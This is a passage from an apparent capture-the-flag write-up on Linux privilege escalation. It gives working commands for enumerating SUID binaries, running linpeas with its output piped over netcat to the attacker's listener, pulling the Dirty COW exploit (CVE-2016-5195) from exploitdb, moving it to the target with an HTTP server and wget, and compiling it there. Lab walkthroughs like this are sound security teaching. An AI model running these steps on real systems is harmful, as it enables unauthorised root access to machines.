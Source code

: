 ```
find / -perm /4000 2>/dev/null
```

There's nothing that doesn't need Sudo, which we don't have on this user:

```
sudo -l
```

Let's try `linpeas.sh` and maybe find out what else we can use to escalate our privileges on the machine. 

```
cd /tmp
```

On our host machine, let's make the output listener ready:

```
nc -lvnp 9002 | tee linpeas.out
```

And on the remote machine, type the following:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | nc <HOST MACHINE IP> 9002
```

This will prepare a linpeas analysis right on your host machine in a file named `linpeas.out`.

```
cat linpeas.out | grep CVE | more
```

A `dirtycow` vulnerability (`CVE-2016-5195`) seems to be available on the remote machine and `gcc` utility is also available on the remote machine. This could be worth a try. Let's find a `dirtycow` exploit:

```
searchsploit --cve 2016-5195
cp /usr/share/exploitdb/exploits/linux/local/40839.c dirty.c
```

Now we need to transfer this `dirty.c` file to remote machine's `/tmp`. On the host machine:

```
python -m http.server
```

On the remote machine:

```
wget http://<HOST MACHINE IP>:8000/dirty.c
```

And compile it on the remote machine:

```
gcc -pthread dirty.c -o dirty -lcrypt
```
